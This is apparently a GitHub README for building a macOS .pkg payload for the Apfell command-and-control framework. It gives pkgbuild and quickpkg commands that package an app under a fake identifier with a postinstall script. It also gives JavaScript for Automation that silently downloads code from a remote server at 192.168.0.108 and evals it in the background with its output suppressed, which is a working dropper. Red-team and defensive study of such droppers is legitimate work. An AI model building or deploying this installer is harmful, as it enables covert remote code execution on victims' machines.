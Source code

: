# apfell-payload
Making pkg payload from Javascript app


## Making the pkg payload
`pkgbuild --root ~/Documents/tech_infosec/apfell-testing/payloads/apfell_pkg_installer_dropper/ --scripts scripts --install-location /tmp --identifier my.fake.pkg my_package.pkg`


Using this script to make pkg because pkgbuild is fickle:
https://github.com/scriptingosx/quickpkg

`python quickpkg --install-location /tmp --postinstall ./Scripts/postinstall.sh apfelljxa.app`


## Creating apfelljxa.app with Script Editor

Create apfelljxa.app with the following Javascript:

`var app = Application.currentApplication();
app.includeStandardAdditions = true;
app.doShellScript("osascript -l JavaScript -e \"eval(ObjC.unwrap($.NSString.alloc.initWithDataEncoding($.NSData.dataWithContentsOfURL($.NSURL.URLWithString('http://192.168.0.108:80/api/v1.4/files/download/8e3e832d-ffc1-416a-8d77-f578759e0c69')), $.NSUTF8StringEncoding)));\" &>/dev/null &");`


Note: Exclude Examples folder when building the .pkg
